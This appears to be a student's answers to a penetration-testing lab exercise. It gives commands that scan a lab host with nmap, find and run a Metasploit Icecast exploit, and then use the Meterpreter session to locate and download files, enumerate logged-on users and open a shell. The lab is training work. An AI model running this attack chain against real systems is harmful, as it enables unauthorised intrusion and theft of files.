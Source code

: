 ### Submission
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: ```nmap -sV 192.168.0.20```

![nmap](/17-Pentration-Testing-2/screenshots/nmap.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ```searchsploit icecast```

![searchsploit](/17-Pentration-Testing-2/screenshots/searchsploit_ice.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: ```msfconsole```

![msfconsole](/17-Pentration-Testing-2/screenshots/msfconsole.png)
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: ```search icecast```
 
![icecast-search](/17-Pentration-Testing-2/screenshots/icecast-search.png)

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: ```use 0```

![msf-use](/17-Pentration-Testing-2/screenshots/msf_use.png)
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: ```set RHOST 192.168.0.20```

![rhost](/17-Pentration-Testing-2/screenshots/rhost.png)
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: ```run```

![run](/17-Pentration-Testing-2/screenshots/run.png)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: ```search -f *secretfile.txt```
  
1. You should now have a Meterpreter session open.
 
  - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: ```search -f *recipe.txt```

![search](/17-Pentration-Testing-2/screenshots/search.png) 
 
  - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


> Answer: ```download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'```

![recipe](/17-Pentration-Testing-2/screenshots/download.png)
 

1. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: ```run post/windows/gather/enum_logged_on_users```

![users](/17-Pentration-Testing-2/screenshots/users.png)
 
     
B. Open a Meterpreter shell. 
 
  > Answer:  ```shell```
 
C. Run the command that displays the target's computer system information:

   > Answer: ```systeminfo```

![systeminfo](/17-Pentration-Testing-2/screenshots/sysinfo.png)